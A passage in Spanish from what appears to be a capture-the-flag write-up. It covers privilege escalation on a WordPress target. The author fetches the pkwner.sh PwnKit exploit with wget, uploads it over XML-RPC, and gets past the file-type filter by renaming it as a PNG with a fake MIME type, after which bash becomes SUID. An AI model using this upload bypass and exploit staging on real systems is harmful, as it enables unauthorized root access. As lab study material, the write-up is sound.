 El problema está en que no tengo conectividad con mi equipo para transferir el ```pwnkit``` por HTTP, por lo que voy a utilizar un script en bash similar

```null
wget https://raw.githubusercontent.com/kimusan/pkwner/main/pkwner.sh
```

Vuelvo al ```nullrpc.php``` para poder ejecutarlo

```null
>>> from wordpress_xmlrpc.methods import media
>>> with open ("pkwner.sh", "r") as f:
...     filename= f.read()
... 
>>> campos = { 'name': 'pkwner.sh', 'bits': filename, 'type': 'text/plain' }
>>> client.call(media.UploadFile(campos))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python3.11/dist-packages/wordpress_xmlrpc/base.py", line 38, in call
    raw_result = server_method(*args)
                 ^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 1122, in __call__
    return self.__send(self.__name, args)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 1464, in __request
    response = self.__transport.request(
               ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 1166, in request
    return self.single_request(host, handler, request_body, verbose)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 1182, in single_request
    return self.parse_response(resp)
           ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 1354, in parse_response
    return u.close()
           ^^^^^^^^^
  File "/usr/lib/python3.11/xmlrpc/client.py", line 668, in close
    raise Fault(**self._stack[0])
xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>
```

De primeras da un error por el tipo de archivo. Pero le puedo poner otro Content-Type para solucionarlo

```null
>>> campos = { 'name': 'pkwner.png', 'bits': filename, 'type': 'images/png' }
>>> client.call(media.UploadFile(campos))
{'attachment_id': '51', 'date_created_gmt': <DateTime '20230221T15:29:19' at 0x7f28de113950>, 'parent': 0, 'link': '/wp-content/uploads/2023/02/pkwner-1.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'images/png', 'thumbnail': '/wp-content/uploads/2023/02/pkwner-1.png', 'id': '51', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2023/02/pkwner-1.png'}
```

Al ejecutar la bash pasa a ser SUID, según había definido en el script
